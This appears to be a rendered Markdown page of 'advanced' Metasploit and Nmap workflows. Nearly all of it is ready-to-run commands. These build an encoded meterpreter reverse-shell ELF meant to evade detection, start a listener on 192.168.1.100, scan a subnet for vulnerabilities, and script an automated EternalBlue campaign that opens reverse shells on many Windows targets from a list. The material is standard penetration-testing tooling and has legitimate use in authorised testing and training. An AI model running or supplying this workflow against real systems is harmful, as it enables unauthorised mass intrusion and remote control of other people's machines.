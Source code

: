**💡 Advanced Payload Strategies:**
```bash
# Step 1: Custom payload generation with encoding
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f elf > custom_payload.elf

# Step 2: Multi-stage payload configuration
use exploit/multi/handler  
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
set ExitOnSession false
exploit -j

# Step 3: Architecture-specific payload selection
show payloads | grep "linux/x64"
show payloads | grep "windows/x64"
```

---

## 🔗 Advanced Integration Workflows

### **Enterprise-Level Integration: Nmap → Metasploit → Reporting**

#### **Phase 1: Automated Discovery and Import**
```bash
# Comprehensive network discovery
nmap -sS -sV -sC -A -O --script vuln -oA complete_scan 192.168.1.0/24

# Import results into Metasploit database
msfconsole -q -x "db_import complete_scan.xml; hosts; services; vulns; exit"
```

#### **Phase 2: Intelligent Target Prioritization**  
```bash
# Automated vulnerability-to-exploit mapping
msfconsole -q

# Query high-value targets
msf6 > hosts -c address,os_name,purpose -S Linux
msf6 > services -c port,proto,name,info -p 21,22,23,135,139,445,3389

# Prioritize by vulnerability severity
msf6 > vulns -c host,name,refs -x Critical,High
```

#### **Phase 3: Systematic Exploitation Campaign**
```bash
# Multi-target exploitation workflow
resource_file="/tmp/auto_exploit.rc"
echo "use auxiliary/scanner/smb/smb_ms17_010" > $resource_file
echo "set RHOSTS file:/tmp/windows_targets.txt" >> $resource_file  
echo "run" >> $resource_file
echo "use exploit/windows/smb/ms17_010_eternalblue" >> $resource_file
echo "set payload windows/x64/meterpreter/reverse_tcp" >> $resource_file
echo "set LHOST 192.168.1.100" >> $resource_file

# Execute automated campaign
msfconsole -r $resource_file
```

